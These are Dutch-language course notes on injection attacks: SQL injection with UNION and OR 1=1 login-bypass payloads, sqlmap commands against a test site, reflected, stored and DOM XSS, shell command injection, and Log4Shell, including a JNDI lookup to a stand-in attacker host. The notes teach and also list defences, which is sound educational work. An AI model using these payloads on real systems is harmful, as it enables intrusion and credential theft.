

# H8 - injection attacks

## 8.1. SQL injection
- Relatief makkelijk
- Detecteren niet altijd makkelijk
- Grote impact

Query: deel toevoegen dat altijd 'true' is, bv select * from widget where id = 1 or 1 = 1

### Verschillende soorten injectie
- SQL injection → SQLi
- Cross-site scripting (XSS)
- Code injection
- CRLF injection
- ...

### SQL injections
- Laten toe om te interfereren met database-queries
- Dingen zichtbaar die niet zichtbaar mogen zijn (wachtwoorden, usernames, ...)

Bv. onderstaande queries geven usernames en passwoorden
```sql
UNION SELECT username, password
FROM users--
```
```sql
SELECT name, description
FROM products
WHERE category = 'gifts'
UNION
SELECT username, password
FROM users--
```

### SQL injections - impact
- Verborgen data vinden: SQL query aanpassen om extra resultaten terug te geven
- Applicatie logica onderscheppen: query veranderen om applicatie-logica aan te passen
- UNION attacks: data van verschillende tabellen
- Database ontdekken: info over versie/structuur/ vd database
- Blinde SQL injectie: resultaten van gemaakte query zijn niet zichtbaar in antwoord vd applicatie

<div style="page-break-after: always; visibility: hidden"> 
<!--\pagebreak--> 
</div>

### Retrieving hidden data
Vb1
- URL: https://insecure-website.com/products?category=Gifts
- Onderliggende query: 
  ```sql
  SELECT *
  FROM products
  WHERE category = 'Gifts' AND released = 1
  ```
- Maar bij deze URL: https://insecure-website.com/products?category=Gifts'--
- Onderliggende query: (alle Gifts worden getoond)
  ```sql
  SELECT *
  FROM products
  WHERE category = 'Gifts'--' AND released = 1
  ```

Vb2
- URL: https://insecurewebsite.com/products?category=Gifts'+OR+1=1--
- Onderliggende query: (alle Gifts worden getoond)
  ```sql
  SELECT *
  FROM products
  WHERE category = 'Gifts' OR 1=1--' AND released = 1
  ```

### Subverting app logic
- Originele query
  ```sql
  SELECT *
  FROM users
  WHERE username='wiener' AND password='bluecheese'
  ```
- Aangepaste query
  ```sql
  SELECT *
  FROM users
  WHERE username='administrator'--' AND password=''
  ```
- Verder aangepaste query
  ```sql
  SELECT *
  FROM users
  WHERE username='administrator' or 1=1--' AND password=''
  ```

### Retrieving data from other DB tbls
- Originele query
  ```sql
  SELECT name, description
  FROM products
  WHERE category = 'Gifts'
  ```
- Uitbreiden met
  ```sql
  ' UNION SELECT username, password FROM users--
  ```

### Examining the database
- Versie nummer SQL server
  ```sql
  SELECT @@version;
  ```
- Beschikbare tabellen in db
  ```sql
  SELECT *
  FROM information_schema.tables
  ```

### Blind SQL injection vulnerabilities
- Applicatie toont resultaten van SQL query of details van errors niet in zen reacties
- Blind vulnerabilities kunnen nog steeds exploit worden, maar technieken zijn ingewikkelder en moeilijker
- Common techniques: Boolean logic, trigger an error (divide-by-zero)

<div style="page-break-after: always; visibility: hidden"> 
<!--\pagebreak--> 
</div>

### SQLMap
- Open-source penetration testing tool
- Automatiseert detectie en exploit SQL injection fouten
- Features
  - 6 technieken: boolean-based, time-based, error-based, UNION query-based, stacked queries, out-of-band
  - Supports dump database tables entirely
  - Supports zoeken naar specifieke db-namen, specifieke tbl-namen, kolom-namen, ...

Vb1: alle tabellen van een URL met naam db=acuart
  ```
  sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
  ```
Vb2: alle kolommen van db=acuart, tabel=artists, -T specifieert table name, -columns geeft aan om kolommen te zoeken
  ```
  sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists --columns
  ```

### Common defenses against SQL injections
- Whitelist untrusted data
- SQL statements parameteriseren
- Finetunen DB

## 8.2. Cross-site scripting (XSS)
- JavaScript injection technique
- Manipuleren zodat website slechte JS teruggeeft aan users

### XSS - proof-of-concept
- Injecting payload die eigen browser normale JS laat uitvoeren
- alert() functie misbruiken
- Checken of website vulnerable is en XSS toelaat

### 3 types
- Reflected XSS: malicious script komt van huidige HTTP request
- Stored XSS: malicious script komt van website's db
- DOM-based XSS: vulnerability bestaat in client-side code

<div style="page-break-after: always; visibility: hidden"> 
<!--\pagebreak--> 
</div>

### Reflected XSS
- Simpelste vorm van XSS
- User input wordt direct geretourneerd door webapp in error message, search result, ...

Vb
- Originele code
  ```html
  https://insecure-website.com/status?message=All+is+well.
  <p>Status: All is well.</p>
  ```
- Aangepaste code
  ```html
  https://insecurewebsite.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
  <p>Status: <script>/* Bad stuff here... */</script></p>
  ```

### Stored XSS
- A.K.A. persistent of second-order XSS
- Applicatie ontvangt data van untrusted source en includes de data later in een HTTP response

Vb
- Origineel: message board laat users berichten submitten, die getoond worden aan andere users
  ```html
  <p>Hello, this is my message!</p>
  ```
- Aangepaste code
  ```html
  <p><script>/* Bad stuff here... */</script></p>
  ```

### DOM-based XSS
- Bruikbaar als applicatie client-side JS gebruikt die data verwerkt van untrusted bron op een onveilige manier (meestal door terug te schrijven naar de DOM)
- JS neemt data van attacker-controllable bron (bv URL) en geeft het door aan een sink die dynamic code execution toelaat (bv eval() of innerHTML)
- Data plaatsen in een bron, so that it is propagated to a sink, uitvoering van arbitrary JS
- Meest voorkomende bron voor DOM XSS: URL

<div style="page-break-after: always; visibility: hidden"> 
<!--\pagebreak--> 
</div>

Vb: applicatie gebruikt JS om waarde ve input veld te bepalen en wegschrijven naar element in HTML
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results’);
results.innerHTML = 'You searched for: ' + search;
```
Als aanvaller waarde van input veld kan controleren: makkelijk malicious value invoeren
- vb: 
  ```js
  You searched for: 
  ```

### XSS impact
- JS heeft toegang tot HTML doc via DOM APIs → DOM manipuleren
- CSRF tokens stelen
- Cookies lezen

## 8.3. Command injections
- = shell injection
- Web security vulnerability die attackers toelaat arbitrary OS commands op server uit te voeren die applicatie runt

### Cmd injections - example
- Shopping applications die user laat zien of er stock is in bepaalde winkel
- URL: https://insecure-website.com/stockStatus?productID=381&storeID=29
- Stockinfo: calling out to shell cmd met product- & sore-ID als argument: stockreport/pl 381 29
- Aanvaller kan input geven: & echo aiwefwlguh &
- Als vorige opgeslaan in productID: stockreport.pl & echo fooHOGENTbar & 29
- & is shell cmd separator: dus er worden 3 cmds uitgevoerd: gegeven errors zijn
  - Error - productID was not provided; fooHOGENTbar; 29: command not found

### Nuttige cmds
|Doel|Linux|Windows|
|:--|:--|:--|
|Name of current|userwhoami|whoami|
|OS|uname -a|ver|
|Network config|ifconfig|ipconfig /all|
|Network connections|netstat -an|netstat -an|
|Running processes|ps -ef|tasklist|

## 8.4. Log4Shell
- CVE-2021-44228 - bestond van 2013 tot 2021
- Zero-day vulnerability in Log4J Framework (popular Java logging framework)
- Vuln. involves arbitrary code execution

Probleem
- Vuln. neemt voordeel van Log4J's toestaan van requests voor arbitrary LDAP en JNDI servers
- Attacker kan arbitrary/remote Java code uitvoeren op server of andere pc
- Aangetaste bedrijven: AWS, Cloudflare, iCloud, Minecraft, ...

### Log4Shell attack
- Aanval mogelijk door processing van strings voor saving in een log file
- Kan makkelijk exploited worden
- Vb LDAP protocol gebruiken met expressie
  ```
  ${jndi: ldap://THEATTACKERSHOST:PORT}
  ```

### Why half of the internet was on fire
- Log4J framework is commonly used
- Attack is relatief makkelijk uit te voeren
- Gebruikmakend van rogue LDAP server: Remote Code Execution (RCE) is mogelijk

### Log4Shell exploit

